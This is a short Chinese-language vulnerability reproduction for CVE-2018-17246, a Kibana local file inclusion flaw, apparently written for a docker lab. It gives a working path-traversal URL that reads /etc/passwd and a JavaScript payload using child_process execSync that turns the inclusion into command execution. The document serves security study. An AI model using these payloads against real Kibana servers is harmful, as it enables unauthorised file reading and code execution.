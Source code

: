 # CVE-2018-17246 Kibana Local File Inclusion

## 一、漏洞简介

Kibana 为 Elassticsearch 设计的一款开源的视图工具。其5.6.13到6.4.3之间的版本存在一处文件包含漏洞，通过这个漏洞攻击者可以包含任意服务器上的文件。此时，如果攻击者可以上传一个文件到服务器任意位置，即可执行代码。

## 二、漏洞影响

Kibana 5.6.13到6.4.3

## 三、复现过程

直接访问如下URL，来包含文件`/etc/passwd`：

```
http://www.baidu,com:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd

```

虽然在返回的数据包里只能查看到一个500的错误信息，但是我们通过执行`docker-compose logs`即可发现，`/etc/passwd`已经成功被包含：

![1.png](images/2020_06_13/63812827eb634b4a8d11ef7bf3e3d1ee.png)

所以，我们需要从其他途径往服务器上上传代码，再进行包含从而执行任意命令。比如，我们将如下代码上传到服务器的`/tmp/vulhub.js`：

```bash
// docker-compose exec kibana bash && echo '...code...' > /tmp/vulhub.js
export default {asJson: function() {return require("child_process").execSync("id").toString()}}

```

成功包含并返回命令执行结果：

![2.png](images/2020_06_13/bf39216f27204c8db0c30b594e61e983.png)

